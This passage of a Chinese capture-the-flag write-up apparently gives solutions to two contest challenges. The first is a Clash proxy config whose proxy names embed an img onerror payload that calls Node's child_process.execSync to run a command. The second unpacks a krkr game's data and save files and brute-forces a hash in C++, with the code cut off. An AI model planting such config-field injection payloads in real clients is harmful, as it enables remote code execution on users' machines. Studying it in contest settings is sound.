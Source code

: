 ### Flag 3

同 Flag1：

```yaml
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
  - name: a<img/src="1"/onerror=alert(eval(`require("child_process").execSync("/app/readflag")`));>
    type: socks5
    server: 127.0.0.1
    port: "17938"
    skip-cert-verify: true
  - name: abc
    type: socks5
    server: 127.0.0.1
    port: "8088"
    skip-cert-verify: true

proxy-groups:
  -
    name: <img/src="1"/onerror=alert(eval(`require("child_process").execSync("/app/readflag")`));>
    type: select
    proxies:
    - a<img/src="1"/onerror=alert(eval(`require("child_process").execSync("/app/readflag")`));>
```

## 13. 汉化绿色版免费下载

### 普通下载

打开之后发现是个游戏，使用 krkr 解包工具 `xp3_upk` 解开数据文件之后可以看到游戏脚本。

其中 `data/scenario/done.ks` 中有 flag

### 高速下载

使用 `KirikiriDescrambler` 对存档进行解包之后，在 `datasc.ksd` 存储了当前局面的变量信息，`datasu.ksd` 中存储了一些其他信息。

注意到 `datasu.ksd` 中有很多 `trail_{labelname}` 条目，联系 krkr2 的[引擎源代码](https://github.com/krkrz/krkr2/blob/master/kirikiri2/trunk/kag3/template/system/MainWindow.tjs#L2230-L2261)可以知道这些条目表明了对应的 label 被调用了多少次。

阅读 `round1.ks` 和 `round2.ks` 之后可以得知哈希值是由一个 1337Hash 算出来的，因此可以在 C++ 中复现该逻辑进行爆破。

```cpp
#include <iostream>
#include <string>
#include <vector>

using namespace std;

int y[] = {11, 22, 33, 44, 55};
char ch[] = {'A', 'E', 'I', 'O', 'U'};
int cnt[] = {6, 3, 1, 6, 0};
string ans = "";

void dfs(int dep, long long x) {
    if (dep == 16) {
        for (int i = 0; i < 5; i++)
            if (cnt[i] != 0) cout << "!" << endl;
        x = (x * 13337 + 66) % 19260817;
        if (x == 7748521) {
```